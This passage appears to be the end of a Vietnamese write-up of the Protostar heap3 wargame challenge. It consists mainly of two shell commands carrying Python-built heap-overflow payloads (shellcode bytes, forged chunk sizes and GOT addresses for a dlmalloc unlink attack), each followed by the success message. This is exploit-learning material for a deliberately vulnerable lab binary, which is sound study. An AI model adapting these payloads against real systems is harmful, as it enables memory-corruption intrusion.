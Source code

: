 Mục tiêu đã hoàn thành!

heap3 có thể coi là bài exploit hay và khó nhất tính đến hiện tại.

## Ref
```bash
user@protostar:~$ heap3 $(python -c 'print "AAAA" *  2 + "\xb8\x64\x88\x04\x08\xff\xd0\xc3"') $(python -c 'print "BBBB" *  8 + "CCCC" + "\x65"') $(python -c 'print "DDDD" * 23 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff" + "\x1c\xb1\x04\x08" + "\x10\xc0\x04\x08"')
that wasn't too bad now, was it? @ 1688030376
```

```bash
user@protostar:~$ heap3 $(python -c 'print "A"') $(python -c 'print "BBBB" * 2 + "\xb8\x64\x88\x04\x08\xff\xd0\xc3" + "CCCC" * 4 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff"') $(python -c 'print "\xff\xff\xff\xff" + "\x1c\xb1\x04\x08" + "\x38\xc0\x04\x08"')
that wasn't too bad now, was it? @ 1688032259
```
